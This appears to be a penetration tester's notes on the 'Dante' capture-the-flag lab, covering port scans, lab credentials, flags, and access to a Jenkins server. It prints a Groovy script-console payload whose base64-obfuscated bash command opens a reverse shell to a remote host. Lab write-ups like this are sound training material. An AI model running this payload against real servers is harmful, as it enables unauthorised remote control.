 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings
### Credentials
`FoundCREDs`

### Flag
- `DANTE{to_g0_4ward_y0u_mus7_g0_back}`
- `DANTE{g0tta_<3_ins3cur3_GROupz!}`
## External
### Enumeration
```shell
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.41
|_http-title: Index of /
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    syn-ack ttl 64 Jetty 9.4.27.v20200227
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.27.v20200227)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
Service Info: Host: 127.0.0.1
```
![](https://i.imgur.com/ObexQP5.png)

![](https://i.imgur.com/MNWL5Wn.png)
- I Coudn't Get any Exploit for this version of this `jenkins`
![](https://i.imgur.com/WvwPYBS.png)
- so Bruteforce or Leak.
Using Credentials from [[Dante - DC02]] `Admin_129834765 : SamsungOctober102030`
![](https://i.imgur.com/faQbSBm.png)
### Gaining Access
![](https://i.imgur.com/1DIuGEa.png)
- Jenkins RCE
```shell
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0MDIgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
![](https://i.imgur.com/sE9D6j9.png)
## Internal
### Enumeration
![](https://i.imgur.com/dDYqi1V.png)
![](https://i.imgur.com/jr05Qyp.png)
![](https://i.imgur.com/UWp1luQ.png)
- `/bin/bash mysql -u ian -p VPN123ZXC`
![](https://i.imgur.com/smpx9k3.png)
### Gaining Access
- The user has `disk` group permission
![](https://i.imgur.com/h0WdHoN.png)


### Maintaining Access


# Random Notes